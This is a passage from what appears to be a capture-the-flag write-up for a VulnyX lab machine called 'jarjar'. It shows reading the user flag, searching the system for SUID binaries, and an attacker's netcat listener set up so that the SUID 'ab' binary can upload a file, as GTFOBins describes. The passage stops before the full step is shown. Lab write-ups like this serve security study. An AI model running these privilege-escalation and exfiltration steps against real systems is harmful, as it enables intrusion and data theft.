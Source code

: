 ```
jarjar@jarjar:~$ ls -la

total 28
drwxr-xr-x 3 jarjar jarjar 4096 Jul 22  2024 .
drwxr-xr-x 5 root   root   4096 Jul 21  2024 ..
lrwxrwxrwx 1 jarjar jarjar    9 Jul 21  2024 .bash_history -> /dev/null
-rw-r--r-- 1 jarjar jarjar  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 jarjar jarjar 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 jarjar jarjar  807 Apr 23  2023 .profile
drwx------ 2 jarjar jarjar 4096 Jul 22  2024 .ssh
-r-------- 1 jarjar jarjar   33 Jul 21  2024 user.txt

jarjar@jarjar:~$ cat user.txt 

cd3afd21332e0ea7c8a47ff6a26387e1 🚩
```

**Linux Privilege Escalation**

```
jarjar@jarjar:~$ find / -perm -4000 2> /dev/null

/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/ab
/usr/bin/mount
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/chsh
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lvnp 1337         
listening on [any] 1337 ...

[CONTINUE]
```

![Firefox - GTFOBins `/usr/bin/ab` File Upload](./assets/screenshots/vulnyx_jarjar_firefox_gtfobins_suid_file_upload.png)
